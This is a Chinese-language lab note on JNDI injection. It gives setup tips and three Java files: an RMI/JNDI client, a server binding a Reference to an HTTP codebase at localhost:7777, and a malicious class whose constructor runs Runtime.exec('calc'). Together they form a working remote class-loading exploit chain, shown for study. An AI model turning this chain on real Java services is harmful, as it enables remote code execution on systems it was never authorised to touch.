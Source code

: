 1. jndi服务端的绑定地址为Reference refobj=new Reference("TestObj","TestObj","http://localhost:7777/")，注意后面是有斜杠的，TestObj为实际恶意类的名称
2. 恶意类自身不应该在任何package中，同时恶意类是不是主类，恶意代码可以写在它的构造函数中，这样在恶意类初始化的时候就会执行恶意代码；如果恶意类在某个package中，比如寻找该恶意类TestObj时，通过加载恶意代码发现它在某个包下，就会报找不到类的错误，相当于packge.TestObj和TestObj不是同一个类
3. 恶意类写好了之后可以用javac编译，然后通过python开启http服务，放在相应文件夹下让JNDI客户端去加载，但要注意，python启动http服务的文件夹不能在项目的classpath下面，不然会导致本地查询成功，直接在本地加载恶意类，如果成功远程加载的话，http服务器上会显示get请求的记录

![1688306732483](C:\Users\Jack\Desktop\code\cybersec\memtrojan\1688306732483.png)

代码为：

```java
package JNDI;


import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.rmi.RemoteException;
import java.util.Hashtable;

public class JNDIClient {
    public static void main(String[] args) {
        try {
            // 创建属性 Hashtable
            Hashtable<String, String> env = new Hashtable<>();
            env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
            env.put(Context.PROVIDER_URL, "rmi://localhost:1099");


            // 创建 JNDI 上下文
            Context context = new InitialContext(env);

            // 查找远程对象
//            IHello hello = (IHello) context.lookup("rmi://localhost:1099/remoteobj");

            context.lookup("rmi://localhost:1099/remoteobj");

            // 调用远程方法
//            String result = hello.sayHello("John");
//
//            System.out.println("Result: " + result);
        } catch (NamingException e) {
            e.printStackTrace();
        }
    }
}
```

```java
package JNDI;

import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;
import javax.naming.Reference;
import java.io.IOException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.Hashtable;

public class JNDIserver {
    public static void main(String[] args) throws NamingException, IOException {

//        Hashtable<String, String> env = new Hashtable<>();
//        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
//        env.put(Context.PROVIDER_URL, "rmi://192.168.0.103:1099");




        Registry registry = LocateRegistry.createRegistry(1099);
        InitialContext initialContext=new InitialContext();

//        initialContext.bind("rmi://192.168.0.103:1099/remoteobj",new HelloImpl());

        Reference refobj=new Reference("TestObj","TestObj","http://localhost:7777/");
        initialContext.bind("rmi://localhost:1099/remoteobj",refobj);

    }
}
```

```java
import java.io.IOException;

public class TestObj {

    public TestObj() throws IOException {
        Runtime.getRuntime().exec("calc");
    }

}
```

